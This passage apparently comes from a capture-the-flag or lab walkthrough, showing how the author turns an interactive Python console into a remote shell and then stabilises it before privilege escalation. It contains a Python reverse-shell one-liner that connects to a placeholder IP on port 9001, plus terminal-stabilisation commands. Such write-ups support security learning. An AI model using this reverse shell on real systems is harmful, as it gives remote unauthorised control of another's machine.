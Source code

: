 We got an interactive python console, let's send ourselves a reverse shell and check if it works:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```





![Pasted image 20250509115732.png](../../IMAGES/Pasted%20image%2020250509115732.png)


If we check our listener:

![Pasted image 20250509115746.png](../../IMAGES/Pasted%20image%2020250509115746.png)

There we go, let's proceed to privilege escalation.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250509115852.png](../../IMAGES/Pasted%20image%2020250509115852.png)
